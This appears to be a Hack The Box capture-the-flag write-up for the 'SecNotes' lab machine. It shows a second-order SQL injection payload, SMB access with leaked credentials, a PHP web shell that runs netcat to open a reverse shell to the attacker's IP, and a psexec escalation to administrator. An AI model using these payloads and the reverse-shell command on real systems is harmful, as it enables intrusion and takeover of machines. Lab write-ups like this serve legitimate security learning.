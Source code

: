 ```yaml
---
layout: post
title: Hack The Box - SecNotes
categories: hack-the-box
image: /hackthebox/secnotes/0.png
---
```

<hr>
### Quick Summary
#### Hey guys Today SecNotes retired. SecNotes was a very nice box and I really liked that it mixed between windows and linux , and that's because it was a windows box and it had windows subsystem for linux (WSL) installed.It was relatively easy. It's ip is 10.10.10.97 so let's jump right in.
![](/images/hackthebox/secnotes/0.png)
<hr>
### Nmap
#### We will start with scanning open ports and services with nmap like we always do so `nmap -sV -sT secnotes.htb`
![](/images/hackthebox/secnotes/1.png)
#### And we see http on port 80 and microsoft-ds on 445 which is smb actually.
#### So let's look at what's there on http
<br>
### HTTP
![](/images/hackthebox/secnotes/2.png)
#### A regular login page and there is an option to sign up , So let's sign up and see what's in there.
![](/images/hackthebox/secnotes/3.png)
![](/images/hackthebox/secnotes/4.png)
#### After we login we see this regular page : "Viewing Secure Notes for *Username*" , and there are some options like creating a note , changing password , sign out and contact. Of course we will do regular enumeration like checking for directories ,checking web vulnerabilities and stuff like that but i will just jump into the thing.
<br>
<hr>
### SQLI
#### If we tried to do sql injection in the registration form , it will work after we login (second order sqli). A simple payload like `OR 1 OR` :
![](/images/hackthebox/secnotes/5.png)
![](/images/hackthebox/secnotes/6.png)
#### And after we login we see some notes , most importantly "new site" :
![](/images/hackthebox/secnotes/7.png)
#### We smb creds , so the next step is to login with smbclient
<br>
<hr>
### New Site
#### We will login with smbclient :
`smbclient //secnotes.htb/new-site -U "tyler"`
#### Then we will look at the contents of that share with `ls`
```
smb: \> ls
  .                                   D        0  Fri Jan 18 15:25:52 2019
  ..                                  D        0  Fri Jan 18 15:25:52 2019
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
  Microsoft                           D        0  Fri Jan 18 15:25:52 2019

```
#### We see stuff that is related to an http server , but that's not the server on port 80 , because it had more than just a png picture and html page. If we do another full port scan we will find an http server on port 8808.
#### you can do a full scan by specifying the port range like this `-p-` I already know it's port 8808 so i'm going to scan that port
![](/images/hackthebox/secnotes/8.png)
#### Now if we go to that port we will see a default page :
![](/images/hackthebox/secnotes/9.png)
#### And by looking at the source we see the png image we saw earlier on the smb share.
![](/images/hackthebox/secnotes/10.png)
#### So we can upload our shell to that server through smb then easily get a reverse shell.
<br>
<hr>
### Reverse shell and User
#### We will create a simple php file that executes nc.exe and connects back to us :
```
<?php
system('nc.exe -e cmd.exe 10.10.xx.xx 1337')
?>
```
#### Then we will put it on the server : from smb shell we do `put rev.php` we also need nc.exe . you can get it from [here](https://eternallybored.org/misc/netcat/) then we will do `put nc.exe`
#### Now when we visit secnotes.htb:8808/rev.php our listener should get a callback , and we got a rev shell !
![](/images/hackthebox/secnotes/11.png)
<hr>
### WSL
#### Let's take a look at the admin's Desktop
![](/images/hackthebox/secnotes/12.png)
#### There are some interesting stuff , but `bash.lnk` that's weird because we are on a windows machine , so windows subsystem for linux is installed on this machine. Let's find where is bash.exe
#### We will `cd /windows` then we will do `dir *.exe /b/s | findstr bash` and this will list recursively all the exe files then we will just pick the line that has bash in it , `findstr` is like `grep` in linux
![](/images/hackthebox/secnotes/13.png)
#### And we got the path , let's `cd` to it and execute bash.exe
![](/images/hackthebox/secnotes/14.png)
#### We will get a stable shell with python pty , We see that we are root on this subsystem. if we list the files in `/root` directory we don't see too much files , but we see `.bash_history` which is a very interesting thing to look at if you are enumerating a linux box so let's view that.
![](/images/hackthebox/secnotes/15.png)
<hr>
### Root
#### There's an smbclient command with the administrator creds, we will simply use [impacket](https://github.com/SecureAuthCorp/impacket)'s `psexec.py` to get a root shell , like we did in [Active](/hack-the-box/active/) 
`./psexec.py administrator@secnotes.htb`
![](/images/hackthebox/secnotes/16.png)
#### And we owned root!
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Oz](/hack-the-box/oz/)
#### next Hack The Box write-up : [Hack The Box - Dab](/hack-the-box/dab/)
<hr>

